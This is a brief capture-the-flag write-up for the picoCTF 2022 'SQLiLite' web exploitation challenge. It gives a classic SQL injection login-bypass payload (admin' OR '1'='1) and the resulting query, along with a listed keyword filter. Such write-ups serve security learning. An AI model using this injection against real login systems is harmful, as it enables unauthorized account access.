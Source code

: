 # SQLiLite

```markdown
Tags: `picoCTF2022` `Web Exploitation` `sql`
```

## **Description**

Can you login to this website?

Additional details will be available after launching your challenge instance.

<figure><img src="../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: admin' OR '1'='1
password: 1
```

```sql
SELECT * FROM users WHERE name='admin' OR '1'='1' AND password='1'
```

## Flag

<figure><img src="../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
